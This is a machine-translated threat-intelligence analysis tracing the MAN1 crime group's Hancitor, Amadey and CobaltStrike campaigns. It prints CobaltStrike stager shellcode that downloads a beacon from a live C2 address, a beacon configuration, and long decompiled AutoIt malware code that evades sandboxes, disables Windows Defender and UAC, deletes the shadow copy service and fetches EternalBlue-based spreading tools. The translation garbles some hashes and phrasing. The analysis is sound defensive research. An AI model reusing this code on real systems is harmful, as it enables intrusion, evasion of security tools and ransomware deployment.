

# 曼 1，莫斯卡尔，汉西特和勒索软件的一面

> 原文：<https://medium.com/walmartglobaltech/man1-moskal-hancitor-and-a-side-of-ransomware-d77b4d991618?source=collection_archive---------0----------------------->


[MAN1](https://vixra.org/abs/1902.0257) 又名 [Moskalvzapoe](https://www.blueliv.com/downloads/network-insights-into-vawtrak-v2.pdf) 又名 [TA511](https://www.proofpoint.com/sites/default/files/pfpt-us-tr-q117-threat-report.pdf) 都是对至少自 2014 年以来一直活跃在大多数主要犯罪软件活动中的威胁参与者(TA)的称呼。

在过去的几年中，大多数主要的电子犯罪集团已经从正常的银行特洛伊木马操作转向赎金和数据盗窃，这种转变已被证明对他们非常有利，尽管这与过去相比是一个巨大的转变，在过去，锁定活动被认为是低级活动和感染的浪费。



Ransomware payments from FBI, Photo Credit [FBI Special Agent Joel DeCapua](https://published-prd.lanyonevents.com/published/rsaus20/sessionsFiles/17627/2020_USA20_SEM-M03H_01_Feds-Fighting-Ransomware-How-the-FBI-Investigates-and-How-You-Can-Help.pdf)

随着越来越多的团体开始转向以企业为重点的勒索软件活动，到 2020 年，这导致了一种趋势，即公司开始通过支付赎金来资助这些电子犯罪集团，使他们成为拥有与任何主要安全初创公司相媲美的资金的犯罪组织。MAN1 也不例外，因为许多研究人员开始注意到 [Hancitor/Chanitor 活动开始导致 CobaltStrike](https://isc.sans.edu/forums/diary/Hancitor+infection+with+Pony+Evil+Pony+Ursnif+and+Cobalt+Strike/25532/) 。

在 SANS 文章的链接沙盒报告中，我们可以下载并解码列出的 chanitor/hancitor 任务:

```
http://yudiartawan.com/a
```

通过使用前 8 个字节作为 XOR 密钥，然后对结果进行 LZNT 解压缩，可以对文件进行解码。

解码文件后，我们剩下一个打包的 CobaltStrike stager，这些 stager 是由 CobaltStrike 构建的，很像信标文件，因为两者将共享相同的水印。解包后，我们可以解码负责下载信标文件的外壳代码:

```
\xfc\xe8\x89\x00\x00\x00`\x89\xe51\xd2d\x8bR0\x8bR\x0c\x8bR\x14\x8br(\x0f\xb7J&1\xff1\xc0\xac<a|\x02, \xc1\xcf\r\x01\xc7\xe2\xf0RW\x8bR\x10\x8bB<\x01\xd0\x8b@x\x85\xc0tJ\x01\xd0P\x8bH\x18\x8bX \x01\xd3\xe3<I\x8b4\x8b\x01\xd61\xff1\xc0\xac\xc1\xcf\r\x01\xc78\xe0u\xf4\x03}\xf8;}$u\xe2X\x8bX$\x01\xd3f\x8b\x0cK\x8bX\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89D$$[[aYZQ\xff\xe0X_Z\x8b\x12\xeb\x86]hnet\x00hwiniThLw&\x07\xff\xd51\xffWWWWWh:Vy\xa7\xff\xd5\xe9\x84\x00\x00\x00[1\xc9QQj\x03QQhP\x00\x00\x00SPhW\x89\x9f\xc6\xff\xd5\xebp[1\xd2Rh\x00\x02@\x84RRRSRPh\xebU.;\xff\xd5\x89\xc6\x83\xc3P1\xffWWj\xffSVh-\x06\x18{\xff\xd5\x85\xc0\x0f\x84\xc3\x01\x00\x001\xff\x85\xf6t\x04\x89\xf9\xeb\th\xaa\xc5\xe2]\xff\xd5\x89\xc1hE!^1\xff\xd51\xffWj\x07QVPh\xb7W\xe0\x0b\xff\xd5\xbf\x00/\x00\x009\xc7t\xb71\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8\x8b\xff\xff\xff/tYX7\x00\xa13x\xd3\'&J\xbct\x00\r\xb8f\xbb\xc7o\x83E\xc5\x1d\xc6O<*\xd3KC,< \x90\x93\x98|\xee\x02g\xc2\xe4\xeej\x90\xa2\xb4\xa7\xc8$\x14\xd3\xfb\x1a\xfc\xdb\x08\xd4\xee\x82\xe0\xceU\x98R\x91]/\xf71\xe3\xa9\xbc3F\xd6\x00User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0; ASU2JS)\r\n\x00\xdd\xe2nU\x0f\x16X[q\xd9e\xb0\x81\xf3k|FQ\xeaM\xa3`\xab\xc2_\x1e\\\x1dA\x00\x85o\xda\xfb\tNz\x9bShy\x14\x0c\xa9\xa8M\x83\'\xc6[\xe0\xfa\xcbzJ\xc5d\xa8\x1b\xf3gy\xb195\xf6N\r\xf9\xe5j_\x92F\x0c\x181zf7\xc9\xac(4\x13,\xdd^\xf9\x96\x03\x17Ispt\xd9"~\x162B\x13q\xcd\x90\xec\xc5%\xbc\xda\x86r\xb2\xfeh\xd5\xf5W\r\x0f\xd8\xdeKl\x8e\x95\x1c\x04\x97\x8f\xdf1^\xecS\x97\xb2\x1a\xf1\xe0\xa5\x8b\x03\xee\xebb\xcc\xe2\x9c\xfah\xbd\xc1\xd1\xbe3\x80o0\x17\x03\xef<a\x8f\xe6\xb6\xeb\x82X0\x88x\x93\xe1{\xf1S\xc8&;\xc6<\x12\x97\x8d\xe8\xfcu\xc2\x05!\x04\xa6C\xc9\xc6.\x93\x85\x89\x01e!8@\x1e3\x00h\xf0\xb5\xa2V\xff\xd5j@h\x00\x10\x00\x00h\x00\x00@\x00WhX\xa4S\xe5\xff\xd5\x93\xb9\x00\x00\x00\x00\x01\xd9QS\x89\xe7Wh\x00 \x00\x00SVh\x12\x96\x89\xe2\xff\xd5\x85\xc0t\xc6\x8b\x07\x01\xc3\x85\xc0u\xe5X\xc3\xe8\xa9\xfd\xff\xff31.44.184.125\x00o\xaaQ\xc3
```

该 stager 外壳代码将从以下位置下载并引爆编码信标:

```
31.44.184.125/tYX7
```

该文件在沙盒运行中也是可用的，因此我们可以解码顶部有外壳代码包装的文件，然后解码 CobaltStrike 信标配置。

```
{'PROXY_BEHAVIOR': '2', 'PROTOCOL': '0', 'SPAWNTO_X64': '%windir%\\sysnative\\rundll32.exe', 'SLEEPTIME': '60000', 'KillDate': '0', 'C2_VERB_GET': 'GET', 'ProcInject_Prepend_x64': '', 'ProcInject_StartRWX': '64', 'DNS_SLEEP': '0', 'ProcInject_Prepend_x86': '', 'ProcInject_MinAllocSize': '0', 'ProcInject_UseRWX': '64', 'MAXGET': '1048576', 'USERAGENT': 'Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0; MAGWJS)', 'PORT': '80', 'DNS_IDLE': '0', 'ProcInject_AllocationMethod': '0', 'UsesCookies': '1', 'C2_POSTREQ': "[('_HEADER', 0, 'Content-Type: application/octet-stream'), ('BUILD', ('PARAMETER', 'id'))]", 'WATERMARK': '1873433027', 'textSectEnd': '0', 'PUBKEY': '30819f300d06092a864886f70d010101050003818d0030818902818100d8c44da76cfed63a526be88bf19e5112c9a1022aa050f59b43ad9b0d265d5eeff5ece70f724e44d7f5ef725c87684045eeaf9af17d6c6fd4a62037e7e7f07b9b6ae33a2fb21ff7ca986a504cc71cfd906bd1919692a5526f0b8c3c45a2e678231d3913e5136dd656dbfa914d870436f9ac39d696682754bd8e56adb5e848b75d0203010001', 'SPAWNTO_X86': '%windir%\\syswow64\\rundll32.exe', 'C2_REQUEST': "[('BUILD', ('BASE64', 'HEADER', 'Cookie'))]", 'CRYPTO_sCHEME': '0', 'ITTER': '0', 'C2_RECOVER': '\x04', 'C2_CHUNK_POST': '0', 'ProcInject_Execute': '\x01\x02\x03\x04', 'PIPENAME': '', 'C2_VERB_POST': 'POST', 'bStageCleanup': '0', 'SUBMITURI': '/submit.php', 'DOMAINS': '31.44.184.125,/updates.rss', 'bCFGCaution': '0', 'MAXDNS': '255'}
```

信标中的水印也与登台程序可执行文件中的外壳代码相匹配:

```
'WATERMARK': '1873433027'\xff31.44.184.125\x00o\xaaQ\xc3
```

可以通过滥用信标配置的结构和已知的 XOR 密钥来开启水印，我们取水印值:

```
o\xaaQ\xc3
```

与 0x69 进行异或运算:

```
\x06\xc38\xaa
```

我们可以在信标中找到这个值:

```
>>> a = ‘\x06\xc38\xaa’
>>> data = open(‘tYX7.decoded’, ‘rb’).read()
>>> data.find(a)
202686
>>> data[202650:202700]
‘ijiy9&:=iiiiiiiiiiiiiuikimiiiiiLikim\x06\xc38\xaaiOihikiiiN’
```

然后基于部分编码数据进行 VT 内容搜索:

```
content:"{696b696d06c338aa}"
```

这导致了一堆要旋转到的文件。


然而，如果 CS 包被共享或泄露，那么它可能会让你陷入各种各样的兔子洞，你可以使用它来找到大量的样本，然后自动解码所有的配置数据，并比较信标配置和模板，以尝试找到更多的相关文件。

目前，我感兴趣的是一个与 IP 对话的样本，它与上一个样本使用相同的打包器打包:

```
bd3c278309e4fe19f7b424ee0b56a1a2c0bbae3a59882d5b6f171d3ca89f728b
```

解压缩该文件会得到类似的外壳代码:

```
\xfc\xe8\x89\x00\x00\x00`\x89\xe51\xd2d\x8bR0\x8bR\x0c\x8bR\x14\x8br(\x0f\xb7J&1\xff1\xc0\xac<a|\x02, \xc1\xcf\r\x01\xc7\xe2\xf0RW\x8bR\x10\x8bB<\x01\xd0\x8b@x\x85\xc0tJ\x01\xd0P\x8bH\x18\x8bX \x01\xd3\xe3<I\x8b4\x8b\x01\xd61\xff1\xc0\xac\xc1\xcf\r\x01\xc78\xe0u\xf4\x03}\xf8;}$u\xe2X\x8bX$\x01\xd3f\x8b\x0cK\x8bX\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89D$$[[aYZQ\xff\xe0X_Z\x8b\x12\xeb\x86]hnet\x00hwiniThLw&\x07\xff\xd51\xffWWWWWh:Vy\xa7\xff\xd5\xe9\x84\x00\x00\x00[1\xc9QQj\x03QQhP\x00\x00\x00SPhW\x89\x9f\xc6\xff\xd5\xebp[1\xd2Rh\x00\x02@\x84RRRSRPh\xebU.;\xff\xd5\x89\xc6\x83\xc3P1\xffWWj\xffSVh-\x06\x18{\xff\xd5\x85\xc0\x0f\x84\xc3\x01\x00\x001\xff\x85\xf6t\x04\x89\xf9\xeb\th\xaa\xc5\xe2]\xff\xd5\x89\xc1hE!^1\xff\xd51\xffWj\x07QVPh\xb7W\xe0\x0b\xff\xd5\xbf\x00/\x00\x009\xc7t\xb71\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8\x8b\xff\xff\xff/tYX7\x00\xa13x\xd3\'&J\xbct\x00\r\xb8f\xbb\xc7o\x83E\xc5\x1d\xc6O<*\xd3KC,< \x90\x93\x98|\xee\x02g\xc2\xe4\xeej\x90\xa2\xb4\xa7\xc8$\x14\xd3\xfb\x1a\xfc\xdb\x08\xd4\xee\x82\xe0\xceU\x98R\x91]/\xf71\xe3\xa9\xbc3F\xd6\x00User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0; ASU2JS)\r\n\x00\xdd\xe2nU\x0f\x16X[q\xd9e\xb0\x81\xf3k|FQ\xeaM\xa3`\xab\xc2_\x1e\\\x1dA\x00\x85o\xda\xfb\tNz\x9bShy\x14\x0c\xa9\xa8M\x83\'\xc6[\xe0\xfa\xcbzJ\xc5d\xa8\x1b\xf3gy\xb195\xf6N\r\xf9\xe5j_\x92F\x0c\x181zf7\xc9\xac(4\x13,\xdd^\xf9\x96\x03\x17Ispt\xd9"~\x162B\x13q\xcd\x90\xec\xc5%\xbc\xda\x86r\xb2\xfeh\xd5\xf5W\r\x0f\xd8\xdeKl\x8e\x95\x1c\x04\x97\x8f\xdf1^\xecS\x97\xb2\x1a\xf1\xe0\xa5\x8b\x03\xee\xebb\xcc\xe2\x9c\xfah\xbd\xc1\xd1\xbe3\x80o0\x17\x03\xef<a\x8f\xe6\xb6\xeb\x82X0\x88x\x93\xe1{\xf1S\xc8&;\xc6<\x12\x97\x8d\xe8\xfcu\xc2\x05!\x04\xa6C\xc9\xc6.\x93\x85\x89\x01e!8@\x1e3\x00h\xf0\xb5\xa2V\xff\xd5j@h\x00\x10\x00\x00h\x00\x00@\x00WhX\xa4S\xe5\xff\xd5\x93\xb9\x00\x00\x00\x00\x01\xd9QS\x89\xe7Wh\x00 \x00\x00SVh\x12\x96\x89\xe2\xff\xd5\x85\xc0t\xc6\x8b\x07\x01\xc3\x85\xc0u\xe5X\xc3\xe8\xa9\xfd\xff\xff31.44.184.125\x00o\xaaQ\xc3
```

与前一个相同的水印、IP 地址和 URI，但是这个文件在 VirusTotal 中有一个有趣的 ITW(在野外)记录:

```
http://en.bulgarienview.com/wp-content/themes/twentynineteen/inc/artvnch.exe
```

artvnch.exe 作为 CS stager 的文件名可以看作是 VirusTotal 中 Amadey bot 的任务，f 3823 F8 C3 D1 F3 d 45 E1 a 9268 df 5b 89 F9 f 60 fa 02 F8 ad 267 e 7 e 6 b 7 cbff 74 dcaf 627。

该 Amadey 与 MAN1、版本 1.43 和 C2s 相关联:

```
compturot .com/f5lkB/index.php
thaturicia .ru/f5lkB/index.php
cholopethe .ru/f5lkB/index.php
```

实际上，我们可以找到许多同名的文件，它们是作为任务下载的 CS stagers。

```
be4c49df859762dc2c7d11794f5731dd498698158b11a9ff18b3f91fdc1f591aCS stager downloaded from:  hxxp://phtmierzwa.]com/plugins/content/apismtp/artifact125.exe655346f41c456cefd9d40c1b9484f1c0dfa36d180c72dd2d1ada26661be1ca6dCS stager downloaded from:  hxxp://rsmleather.]com/wp-content/plugins/so-widgets-bundle/artvnch.exe2d038b20eaf05bb8d673542f1dbab6a376abb05bf10d38b04f163cfd6c2a7252 CS stager downloaded from: hxxp://fastwaylogistic[.]com/artvnch.exea0f49754f0fe204ad9020c1677f09018d3ab7dd3e45e1b66766cdd17700b54dfCS stager downloaded from: hxxp://lumispot[.com/wp-content/plugins/nextgen-gallery/artvnch.exe
```

参与者似乎使用此范围内的多个 IP 地址以及其他一些地址，例如:

```
45.142.213.167
```


我们可以再次看到一些 artvnch.exe 的名字，但也可以看到一个 work.exe 文件，这是一个 CS stager 下载信标，来自:

```
45.142.213.167/imP6
```

水印也与我们之前识别的 CS 文件相同。该服务器托管了许多其他有趣的文件:

```
ea93c89dbf63ec462f19f6ac039c0cdf3d283b64eaadd6c38679c9b70710bd71, doe_install.exe
6e4459199d7fbdc4c215e595906e78fdd1c15ad3be6abed6540b80de17b63f3b,oxford.exe
```

**ea 93 c 89 DBF 63 EC 462 f 19 F6 AC 039 c 0 CD F3 d 283 b 64 ea add 6 c 38679 c 9 b 70710 BD 71**

根据 VirusTotal 上的缓存沙盒报告，文件 doe_install.exe 将与另一台 CS 服务器对话:

```
185.153.196.207
```

这是一个 autoit 编译的脚本，最终将引爆两个文件，但也执行一些反检查。

```
$john = "John"
$name1 = "Peter Wilson"
$name2 = "Acme"
$name3 = "BOBSPC"
$name4 = "Johnson"
$name5 = "John"
$name6 = "John Doe"
$name7 = "Rivest"
$name8 = "mw"
$name9 = "me"
$name10 = "sys"
$name11 = "Apiary"
$name12 = "STRAZNJICA.GRUBUTT"
$name13 = "Phil"
$name14 = "Customer"
$name15 = "shimamu"
$pcname1 = "RALPHS-PC"
$pcname2 = "ABC-WIN7"
$pcname3 = "man-PC"
$pcname4 = "luser-PC"
$pcname5 = "Klone-PC"
$pcname6 = "tpt-PC"
$pcname7 = "BOBSPC"
$pcname8 = "WillCarter-PC"
$pcname9 = "PETER-PC"
$pcname10 = "David-PC"
$pcname11 = "ART-PC"
$pcname12 = "TOM-PC"
If ProcessExists("frida-winjector-helper-32.exe") OR ProcessExists("analyzer.exe") Then
	Exit
EndIf
$name = @UserName
$pcname = @ComputerName
If @ComputerName = "WIN7SP1-SSLCAP" Then
	Exit
EndIf
If FileExists(@DesktopDir & "\secret.txt") Then
	Exit
EndIf
If FileExists(@DesktopDir & "\my.txt") Then
	Exit
EndIf
If FileExists(@DesktopDir & "\report.odt") Then
	Exit
EndIf
If FileExists(@DesktopDir & "\report.rtf") Then
	Exit
EndIf
If FileExists(@DesktopDir & "\Incidents.pptx") Then
	Exit
EndIf
If $name = $name1 Then
	Exit
EndIf
If $name = $name2 Then
	Exit
EndIf
If $name = $name3 Then
	Exit
EndIf
If $name = $name4 Then
	Exit
EndIf
If $name = $name5 Then
	Exit
EndIf
If $name = $name6 Then
	Exit
EndIf
If $name = $name7 Then
	Exit
EndIf
If $name = $name8 Then
	Exit
EndIf
If $name = $name9 Then
	Exit
EndIf
If $name = $name10 Then
	Exit
EndIf
If $name = $name11 Then
	Exit
EndIf
If $name = $name12 Then
	Exit
EndIf
If $name = $name13 Then
	Exit
EndIf
If $name = $name14 Then
	Exit
EndIf
If $name = $name15 Then
	Exit
EndIf
If $pcname = $pcname1 Then
	Exit
EndIf
If $pcname = $pcname2 Then
	Exit
EndIf
If $pcname = $pcname3 Then
	Exit
EndIf
If $pcname = $pcname4 Then
	Exit
EndIf
If $pcname = $pcname5 Then
	Exit
EndIf
If $pcname = $pcname6 Then
	Exit
EndIf
If $pcname = $pcname7 Then
	Exit
EndIf
If $pcname = $pcname8 Then
	Exit
EndIf
If $pcname = $pcname9 Then
	Exit
EndIf
If $pcname = $pcname10 Then
	Exit
EndIf
If $pcname = $pcname11 Then
	Exit
EndIf
If $pcname = $pcname12 Then
	Exit
EndIf
If ProcessExists("joeboxcontrol.exe") OR ProcessExists("joeboxserver.exe") Then
	Exit
EndIf
If @OSVersion = "WIN_XP" Then
	Exit
EndIf
If FileExists("C:\ProgramData\Microsoft\Check\Check.txt") Then
	Exit
```

试图禁用或卸载安全软件:

```
If ProcessExists("msseces.exe") Then
	$scmd = 'C:\Windows\System32\wbem\wmic.exe product where name="Microsoft Security Client" call uninstall /nointeractive'
	$ipid = Run(@ComSpec & ' /C "' & $scmd & '"', "", @SW_HIDE)
	Sleep(8000)DirCreate("C:\Programdata\install")
	DirCreate("C:\Programdata\RunDLL")
	DirCreate("C:\Programdata\Microsoft\Intel")
	DirCreate("C:\Programdata\System32\logs")
	DirCreate("C:\ProgramData\Microsoft\Check")
	DirCreate("C:\ProgramData\RealtekHD")
	DirCreate("C:\programdata\WindowsTask")
	DirCreate("C:\programdata\Microsoft\temp")
	$logfile = "C:\Programdata\Microsoft\Check\Check.txt"
	If NOT FileExists($logfile) Then _filecreate($logfile)
	$pathscript = "C:\ProgramData\RealtekHD\taskhostw.exe"
	$sname = ("Realtek HD Audio")
	RegWrite("HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", $sname, "REG_SZ", $pathscript)
	RegWrite("HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList", "John", "REG_DWORD", 0)
	RegWrite("HKLM64\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList", "John", "REG_DWORD", 0)
	Sleep(100)
	RegWrite("HKLM64\SOFTWARE\SOFTWARE\Policies\Microsoft\Windows Defender", "DisableAntiSpyware", "REG_DWORD", 1)
	RegWrite("HKLM\SOFTWARE\SOFTWARE\Policies\Microsoft\Windows Defender", "DisableAntiSpyware", "REG_DWORD", 1)
	Sleep(100)
	RegWrite("HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection", "DisableIOAVProtection", "REG_DWORD", 1)
	RegWrite("HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection", "DisableIOAVProtection", "REG_DWORD", 1)
	Sleep(50)
	RegWrite("HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection", "DisableBehaviorMonitoring", "REG_DWORD", 1)
	RegWrite("HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection", "DisableBehaviorMonitoring", "REG_DWORD", 1)
	Sleep(50)
	RegWrite("HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection", "DisableOnAccessProtection", "REG_DWORD", 1)
	RegWrite("HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection", "DisableOnAccessProtection", "REG_DWORD", 1)
	Sleep(50)
	RegWrite("HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection", "DisableRawWriteNotification", "REG_DWORD", 1)
	RegWrite("HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection", "DisableRawWriteNotification", "REG_DWORD", 1)
	Sleep(50)
	RegWrite("HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet", "DisableBlockAltFirstSeen", "REG_DWORD", 1)
	RegWrite("HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet", "DisableBlockAltFirstSeen", "REG_DWORD", 1)
	Sleep(100)
	RegWrite("HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet", "LocalSettingOverrideSpynetRepting", "REG_DWORD", 0)
	RegWrite("HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet", "LocalSettingOverrideSpynetRepting", "REG_DWORD", 0)
	Sleep(100)
	RegWrite("HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet", "SumbitSamplesConsent", "REG_DWORD", 2)
	RegWrite("HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet", "SumbitSamplesConsent", "REG_DWORD", 2)
	Sleep(100)
	RegWrite("HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions", "Exclusions_Paths", "REG_DWORD", 1)
	RegWrite("HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions", "Exclusions_Paths", "REG_DWORD", 1)
	Sleep(100)
	RegWrite("HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths", "C:\Programdata", "REG_SZ", "System")
	RegWrite("HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths", "C:\Programdata", "REG_SZ", "System")
	Sleep(50)
	RegWrite("HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths", "C:\Windows\System32", "REG_SZ", "SystemHD")
	RegWrite("HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths", "C:\Windows\System32", "REG_SZ", "SystemHD")
	Sleep(50)
	RegWrite("HKLM64\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System", "EnableLUA", "REG_DWORD", 0)
	RegWrite("HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System", "EnableLUA", "REG_DWORD", 0)
	Sleep(100)
	RegWrite("HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System", "ConsentPromptBehaviorAdmin", "REG_DWORD", 0)
	RegWrite("HKLM64\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System", "ConsentPromptBehaviorAdmin", "REG_DWORD", 0)
	Sleep(100)
	RegWrite("HKLM64\SOFTWARE\Microsoft\Windows\CurrentVersion\ImmersiveShell", "UseActionCenterExperience", "REG_DWORD", 0)
	RegWrite("HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ImmersiveShell", "UseActionCenterExperience", "REG_DWORD", 0)
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced", "EnableBalloonTips", "REG_DWORD", 0)
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\Windows Error Reporting", "disable", "REG_DWORD", 1)
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\PushNotifications", "ToastEnabled", "REG_DWORD", 0)
	Sleep(100)
	RegWrite("HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\Reporting", "DisableEnhancedNotifications", "REG_DWORD", 1)
	RegWrite("HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\UX Configuration", "Notification_Suppress", "REG_DWORD", 1)
	Sleep(100)
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer", "DisallowRun", "REG_DWORD", 1)
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun", "1", "REG_SZ", "eav_trial_rus.exe")
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun", "2", "REG_SZ", "avast_free_antivirus_setup_online.exe")
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun", "3", "REG_SZ", "eis_trial_rus.exe")
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun", "4", "REG_SZ", "essf_trial_rus.exe")
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun", "5", "REG_SZ", "hitmanpro_x64.exe")
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun", "6", "REG_SZ", "ESETOnlineScanner_UKR.exe")
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun", "7", "REG_SZ", "ESETOnlineScanner_RUS.exe")
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun", "8", "REG_SZ", "HitmanPro.exe")
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun", "9", "REG_SZ", "360TS_Setup_Mini.exe")
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun", "10", "REG_SZ", "Cezurity_Scanner_Pro_Free.exe")
	RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun", "11", "REG_SZ", "Cube.exe")
```

删除影子文件服务:

```
Run(@ComSpec & " /c " & "sc delete swprv", "", @SW_HIDE)
```

该脚本还将在最后执行一个请求，这可能是为了跟踪统计数据:

```
$iplog2 = "https://iplogger.org/1fCk97"
InetRead($iplog2, 3)
```

最终如前所述，脚本将引爆两个文件:

```
If @OSArch = "X64" Then
	FileInstall("C:\2\taskhostw.exe", "C:\ProgramData\RealtekHD\taskhostw.exe")
	Sleep(1000)
	Run("C:\ProgramData\RealtekHD\taskhostw.exe")
	FileInstall("C:\2\art.exe", "C:\ProgramData\install\art.exe")
	Run("C:\ProgramData\install\art.exe")
```

【art.exe】—d 08131d 236658401 c8 de 489596 ee 83992058 f 05176 CBD 8 b 72 add 89 fcea 57 e 37 c

这是一个打包的 CS stager，它将从以下位置下载信标:

```
185.153.196\. 207/M7ph
```

还带有与我们之前识别的 CS 相关文件相同的水印。另一个文件有点不同。

【taskhostw.exe 3ac 1741 ee 7 DCF 04 CB 5 DBA 01d 82d 4232347 a 63697 f 0 ca 8 b 00661960 f 719 cade 23

这是一个 64 位 Autoit 编译的可执行文件，反编译显示该文件只是一个加载程序，它具有与前面讨论的相同的反检查，但也创建了一个标题为“YouWillBeMined2”的窗口，该窗口将用于检查它是否已经运行。

```
GUICreate("YouWillBeMined2")
```

该脚本将从 FTP 服务器下载一个文件:

```
$worked = "ONLINE"
$server = "learinmica.com"
$username = "alex"
$pass = "easypassword"
Local $open = _ftp_open("FTP")
```

根据随后发生的检查判断，您可以推测这将涉及 SMB 扫描以进行传播:

```
If $worked = "ONLINE" Then
	If $ftp_status = "ONLINE" Then
		If @OSVersion <> "WIN_10" Then
			If NOT FileExists("C:\Programdata\RunDLL\Doublepulsar-1.3.1.exe") OR NOT FileExists("C:\Programdata\RunDLL\Eternalblue-2.2.0.exe") OR NOT FileExists("C:\Programdata\RunDLL\rundll.exe") OR NOT FileExists("C:\Programdata\RunDLL\system.exe") OR NOT FileExists("C:\Programdata\RunDLL\start.exe") Then
				ConsoleWrite("Downlading Scaner.dat" & @CRLF)
				Local $ftp_xmrigcpu64 = "scaner.dat"
				Local $hopen = _ftp_open("FTP")
				Local $hconn = _ftp_connect($hopen, $server, $username, $pass, 1)
				Local $ftpg = _ftp_fileget($hconn, $ftp_xmrigcpu64, "C:\Programdata\WindowsTask" & "\" & $ftp_xmrigcpu64)
				Local $isize = _ftp_filegetsize($hconn, "/" & $ftp_xmrigcpu64)
				ConsoleWrite($isize & @CRLF)
				Local $iftpc = _ftp_close($hconn)
				Local $iftpo = _ftp_close($hopen)
				FileSetAttrib("C:\ProgramData\WindowsTask\scaner.dat", "+SH")
				Sleep(300)
				FileMove("C:\Programdata\Windowstask\scaner.dat", "C:\Programdata\WindowsTask\scaner.exe")
